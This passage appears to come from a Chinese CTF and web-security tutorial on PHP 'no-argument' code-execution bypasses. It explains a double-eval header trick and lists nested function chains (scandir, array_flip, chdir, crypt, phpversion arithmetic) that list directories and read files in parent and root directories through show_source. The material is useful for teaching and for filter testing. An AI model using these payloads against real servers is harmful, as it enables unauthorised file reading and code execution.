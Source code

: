 ![image.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9662bc5d5a6a5bc6a44e425bb8a84364b68e6d97.png)

像这样

细心的朋友肯定会发现，这里有两个`eval`函数，这里需要两个`eval`的原因，我认为是，如果只有一个`eval`就只是执行 `end(getallheaders());` 获取了其返回值，但是并没有执行其返回值，再加一个`eval` ，也就是获取了返回值后，再`eval()`。

#### getenv()

`getenv()`：获取环境变量的值(在PHP7.1之后可以不给予参数)

**getenv() 获取一个环境变量的值，phpinfo() 获取全部的环境变量，其实不是很理解，直接phpinfo()就好了。**

```php
var_dump(getenv(phpinfo()));
```

#### scandir()

这种方法是使用比较多的，相对而言比较多变，各个函数相辅相成。

```php
scandir()  //函数返回指定目录中的文件和目录的数组。
localeconv()   //返回一包含本地数字及货币格式信息的数组。
current()     //返回数组中的单元，默认取第一个值。
pos是current的别名
getcwd()      //取得当前工作目录
dirname()     //函数返回路径中的目录部分。
array_flip()  //交换数组中的键和值，成功时返回交换后的数组
array_rand()  //从数组中随机取出一个或多个单元
//array_flip()和array_rand()配合使用可随机返回当前目录下的文件名
//dirname(chdir(dirname()))配合切换文件路径
//current(localeconv())表示.
```

示例：

```php
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));  //查看和读取根目录文件
if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));  //查看和读取根目录文件
```

##### phpversion()获取 .

- `phpversion()`返回php版本，如`7.3.5`
- `floor(phpversion())`返回`7`
- `sqrt(floor(phpversion()))`返回`2.6457513110646`
- `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`
- `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`
- `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`
- `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`
- `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`.`
- `var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`扫描当前目录
- `next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`返回`..`
    